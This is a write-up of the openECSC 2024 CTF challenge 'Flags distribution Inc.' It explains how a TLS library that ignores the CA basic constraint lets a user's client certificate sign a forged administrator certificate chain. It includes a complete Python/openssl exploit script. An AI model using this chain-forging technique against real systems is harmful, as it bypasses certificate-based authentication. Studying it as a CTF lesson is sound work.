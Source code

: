 # openECSC 2024 - Round 1

## [misc] Flags distribution Inc. (17 solves)

Finally Flags distribution Inc. made a false step! They accidentally exposed their client certificate signing endpoint to the internet... It doesn't seem to be able to sign admin certificates though...

This is a remote challenge, you can connect with:

`openssl s_client -connect flagsdistribution.challs.open.ecsc2024.it:38000`

`nc flagsdistribution.challs.open.ecsc2024.it 38001`

Author: Alberto Carboneri <@Alberto247>

## Overview

In this challenge we are given an application which makes use of [TLSe](https://github.com/eduardsui/tlse), a single-file TLS implementation written in C.
The challenge consists of a simple C program making use of such library to expose a service wrapped with TLS. 
It makes use of client certificates to authenticate the connecting users, providing the flag only to the user `FlagsDistributionAdministrator`, if its certificate has been issued by `Flags distribution Inc.`.

Another endpoint, available as a separate service, provides user certificates for any user, except `FlagsDistributionAdministrator`.

A custom root certificate is used in the whole challenge as a root of trust for every certificate chain.

The challenge patches TLSe during build. However, as noted in the Dockerfile, this patch is a bug fix for tlse and is not intended to introduce any vulnerability.

## Certificate chains and certificate basic constraints

In the wild, using the root certificate to sign every other certificate would be both cumbersome and a security issue, so certificate chains are commonly used. A certificate can be signed by the root certificate, and that certificate can be then used to sign other certificates. During the verification the whole certificate chain is verified, and if it leads to a trusted root certificate it is considered valid. This allows for a tree of certificates to be generated, all leading to a common root.

However, not all certificates should be used for every scope and there should be a way to limit the capabilities of a specific certificate, otherwhise signing any certificate would be almost equivalent to giving away your root certificate (apart from the possibility of certificate revocation of course). To achieve that, the basic constraints section was introduced, describing the scope of the current certificate. For example, the field `CA` specifies whether the certificate is supposed to be used to sign other certificates and be in any place other than the end of the signature chain. This is generally set to `false` in client certificates, as those are meant to be used for authentication, and not as a CA.

## The bug

While the basic constraints section of a certificate limits its scopes, nothing prevents their use outside of those limits. It is up to the chain verification code to limit their use and reject invalid chains.
The challenge doesn't properly check this section and this poses a security risk. In fact an attacker can use a client certificate as a certification authority and use it to sign other certificates. 
The intended solution for the challenge was to request a certificate from the signing endpoint and use that to sign other certificates. Since the server was also verifying the issuer, the solution requires using the provided certificate to sign a new certificate having the correct issuer, and then use that certificate to sign a final certificate having the correct user.
Finally, one should package all three certificates into a chain, and provide such chain to the server.
This challenge was heavily inspired by a bug present in the TLS library of the Nintendo DS. You can find more information [here](https://github.com/KaeruTeam/nds-constraint).


## Openssl interface

Many players had trouble using the openssl client to communicate with the remote server.
Unfortunately, this client appears to have a not-so-clear error handling, providing confusing or wrong information on the reason of the failure.
The proper way to solve this challenge using such client was to:
1. Use the IP instead of the domain when connecting to the remote server, as using the domain causes error when validating the server certificate
2. Configure the client to use tls1.2 as tls1.3 is not supported by the server. This is achieved by pasing the "-tls1_2" parameter
3. Split the obtained chain to have a single certificate, called `fakeadmin_cert.pem` in this example, containing the outer certificate, and a file, called `chain.pem` in this example, containing the two certificates composing the rest of the chain
4. Connect to the server using the following command line `openssl s_client -cert fakeadmin_cert.pem -key key.pem -cert_chain chain.pem -connect 128.140.101.143:38000 -tls1_2`

Another, simpler solution, was to use pwntools, providing the correct ssl context. This is shown in the exploit below.

## Exploit

```python
#!/usr/bin/env python3

import ssl
import subprocess as sp

from pwn import *

logging.disable()

HOST = "flagsdistribution.challs.open.ecsc2024.it"
PORT = 38000

username = "".join([random.choice(string.ascii_letters) for _ in range(16)])

with remote(HOST, PORT + 1) as r:
    r.recvuntil(b"name: ")
    r.sendline(username.encode())
    r.recvuntil(b"Here is your certificate:")
    certificate = r.recvuntil(b"-----END CERTIFICATE-----").decode().strip()
    r.recvuntil(b"Here is your certificate key:")
    key = r.recvuntil(b"-----END PRIVATE KEY-----").decode().strip()

user_cert = tempfile.mktemp()
with open(user_cert, "w") as f:
    f.write(certificate)

user_cert_key = tempfile.mktemp()
with open(user_cert_key, "w") as f:
    f.write(key)

fakeadmin_key = tempfile.mktemp()
fakeadmin_csr = tempfile.mktemp()
fakeadmin_pem = tempfile.mktemp()

sp.check_call(["openssl", "genrsa", "-out", fakeadmin_key, "2048"], stdout=sp.PIPE)

sp.check_call(["openssl", "req", "-new", "-out", fakeadmin_csr, "-key", fakeadmin_key, "-subj",
               f"/C=IT/CN=FlagsDistributionAdministrator/O=Flags distribution Inc."], stdout=sp.PIPE)

sp.check_call(
    ["openssl", "x509", "-req", "-in", fakeadmin_csr, "-CA", user_cert, "-CAkey", user_cert_key, "-out", fakeadmin_pem,
     "-CAcreateserial", "-days", "365", "-sha256"], stdout=sp.PIPE)

fakeadmin_outer_key = tempfile.mktemp()
fakeadmin_outer_csr = tempfile.mktemp()
fakeadmin_outer_pem = tempfile.mktemp()

sp.check_call(["openssl", "genrsa", "-out", fakeadmin_outer_key, "2048"], stdout=sp.PIPE)

sp.check_call(["openssl", "req", "-new", "-out", fakeadmin_outer_csr, "-key", fakeadmin_outer_key, "-subj",
               f"/C=IT/CN=FlagsDistributionAdministrator/O=Flags distribution Inc."], stdout=sp.PIPE)

sp.check_call(
    ["openssl", "x509", "-req", "-in", fakeadmin_outer_csr, "-CA", fakeadmin_pem, "-CAkey", fakeadmin_key, "-out",
     fakeadmin_outer_pem, "-CAcreateserial", "-days", "365", "-sha256"], stdout=sp.PIPE)

fakeadmin_chain = tempfile.mktemp()
os.system(f"cat {fakeadmin_outer_pem} {fakeadmin_pem} {user_cert} > {fakeadmin_chain}")

context = ssl.SSLContext(ssl.PROTOCOL_TLSv1_2)
context.load_cert_chain(fakeadmin_chain, fakeadmin_outer_key)

with remote(socket.gethostbyname(HOST), PORT, ssl=True, ssl_context=context) as r:
    flag = r.recvline().decode().split("system is ")[-1].strip()
    print(flag)
```

